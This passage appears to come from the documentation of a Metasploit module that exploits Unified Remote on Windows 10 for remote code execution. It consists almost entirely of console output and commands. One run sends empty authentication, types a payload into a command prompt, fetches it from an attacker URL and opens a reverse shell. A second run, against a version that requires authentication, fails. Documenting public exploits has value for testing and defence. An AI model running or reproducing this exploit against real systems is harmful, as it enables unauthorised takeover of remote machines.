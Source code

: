 ```
[-] 2.2.2.2:9512 - Web interface is disabled. Unable to attempt bypass, assuming no authentication.
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Opening Start Menu
[*] 2.2.2.2:9512 - Opening command prompt
[*] 2.2.2.2:9512 - Typing out payload
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Attempting to open payload
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:60829) at 2022-09-08 17:00:30 -0400
[*] 2.2.2.2:9512 - Server stopped.
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\QD7V9rLaWUwvPIY.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>
```

### Version 3.11.0.2483 on Windows 10, user authentication, no web server access, visible true

This will fail.

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-iJP3rW13dKjtf8Xz
[*] 2.2.2.2:9512 - Retrieving server config
[-] 2.2.2.2:9512 - Web interface is disabled. Unable to attempt bypass, assuming no authentication.
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Opening Start Menu
[*] 2.2.2.2:9512 - Opening command prompt
[*] 2.2.2.2:9512 - Typing out payload
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Attempting to open payload
[*] 2.2.2.2:9512 - Server stopped.
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\tapEZnGskY.exe' on the target
[*] Exploit completed, but no session was created.
```
